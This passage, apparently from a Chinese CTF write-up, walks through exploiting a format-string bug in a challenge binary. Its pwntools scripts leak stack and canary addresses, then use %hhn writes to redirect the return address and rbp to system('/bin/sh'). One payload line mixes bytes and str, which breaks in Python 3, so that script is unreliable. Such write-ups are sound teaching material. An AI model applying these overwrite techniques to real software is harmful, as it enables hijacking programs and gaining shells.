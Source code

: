 于是我们的目标就很明确了:通过格式化字符串漏洞,设法修改程序执行流,执行后门函数并绕过检查机制,并最终获取flag.当然,栈上格式化字符串漏洞我们已经很熟悉了,所以问题主要还是在绕过检查上.

那么开始编写脚本.首先通过调试确定栈地址和canary地址的位置(虽然canary不一定能用上,不过反正闲着也是闲着)

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p'
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))

```

那么接下来就是向返回地址写入后门函数的地址了.这里我选择直接跳转到`system(s)`的位置,这样就可以直接跳过检查的部分.不过这又带来一个问题:我们需要同时控制`rbp`到一个合适的位置,以使`[rbp-30h]`的位置正好是我们传入的`/bin/sh\x00`字符串.不过这题给了三次格式化字符串,所以显然是能够完成这些操作的.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p' #泄露各种地址
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))


payload2=b'%17c%10$hhn     '+p64(ret_add) #使用%hhn只编辑ret地址的最后两位
r.send(payload2)
pause()
rbp=(ret_add-0x8)%0x100-0x50 #这算是栈迁移吗?
payload3=b'%'+str(rbp)+b'c%10$hhn     '+p64(ret_add-0x8)+b'a'*0x78+b'/bin/sh\x00'
#bss-0x98

r.send(payload3)

r.interactive()
```
